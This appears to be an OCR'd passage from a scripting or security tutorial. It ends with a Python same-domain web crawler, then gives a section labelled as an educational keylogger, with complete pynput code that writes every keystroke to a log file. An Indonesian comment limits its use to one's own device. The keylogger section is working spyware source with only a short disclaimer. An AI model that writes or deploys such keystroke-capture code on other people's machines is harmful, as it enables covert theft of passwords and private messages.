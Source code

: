 ```bash
    visited.add(url)
    print(f"{'  ' * current_depth}Crawling: {url}")
    
    try:
        response = requests.get(url, timeout=5)
        soup = BeautifulSoup(response.content, 'html.parser')
        
        for link in soup.find_all('a', href=True):
            next_url = urljoin(url, link['href'])
            if urlparse(next_url).netloc == urlparse(url).netloc:
                crawl(next_url, max_depth, current_depth + 1)
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 crawler.py <url>")
        sys.exit(1)
    
    crawl(sys.argv[1])
    print(f"\nTotal URLs found: {len(visited)}")
EOF

python3 crawler.py https://example.com
```

### 10.3 Keylogger (Educational - Test on Your Own Device!)

```bash
cat > keylogger.py << 'EOF'
#!/usr/bin/env python3
from pynput import keyboard
import logging

logging.basicConfig(filename="keylog.txt", level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        logging.info(str(key.char))
    except AttributeError:
        logging.info(str(key))

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
EOF

# HANYA untuk testing di device sendiri!
# pip install pynput
# python3 keylogger.py
```
